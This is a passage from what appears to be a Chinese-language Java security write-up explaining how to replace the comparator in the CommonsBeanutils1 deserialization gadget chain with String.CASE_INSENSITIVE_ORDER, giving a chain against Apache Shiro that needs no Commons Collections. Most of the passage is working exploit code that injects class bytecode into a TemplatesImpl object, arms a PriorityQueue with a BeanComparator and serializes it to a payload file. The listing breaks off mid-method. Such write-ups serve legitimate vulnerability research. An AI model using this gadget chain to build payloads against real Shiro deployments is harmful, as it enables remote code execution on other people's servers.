 特征梳理如下

- 权限修饰符 public
    - private也可以, 利用反射来构造
- 实现了 Comparator 接口
- 实现了 Serializable 接口

p牛 通过这些特征用IDEA找到了 CaseInsensitiveComparator

- java.lang.String.CaseInsensitiveComparator

```java

public static final Comparator<String> CASE_INSENSITIVE_ORDER=new CaseInsensitiveComparator();

private static class CaseInsensitiveComparator
        implements Comparator<String>, java.io.Serializable {
    // use serialVersionUID from JDK 1.2.2 for interoperability
    private static final long serialVersionUID = 8575799808933029326L;

```

可以通过 String.CASE_INSENSITIVE_ORDER 获取到 CaseInsensitiveComparator 对象, 来代替ComparableComparator。
即修改 CommonsBeanutils1 中的

```java
final BeanComparator comparator=new BeanComparator("lowestSetBit");
```

为

```java
final BeanComparator comparator=new BeanComparator("lowestSetBit",String.CASE_INSENSITIVE_ORDER);
```

这就是无CC依赖的一条Shiro反序列化利用链 - CommonsBeanutils1Shiro。

完整代码

```java
public class CommonsBeanutils_Shiro {

    public static void main(String[] args) throws Exception {
        getPayload(Calc.class.getName());
        Path path = Paths.get("poc.ser");
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(path));
        ois.readObject();

    }

    public static void getPayload(String class_name) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(class_name);
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "test");
        setFieldValue(templates, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("aaa");
        queue.add("aaa");

        setFieldValue(queue, "queue", new Object[]{templates, templates});
        setFieldValue(comparator, "property", "outputProperties");

        Path path = Paths.get("poc.ser");
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(path));
        oos.writeObject(queue);
```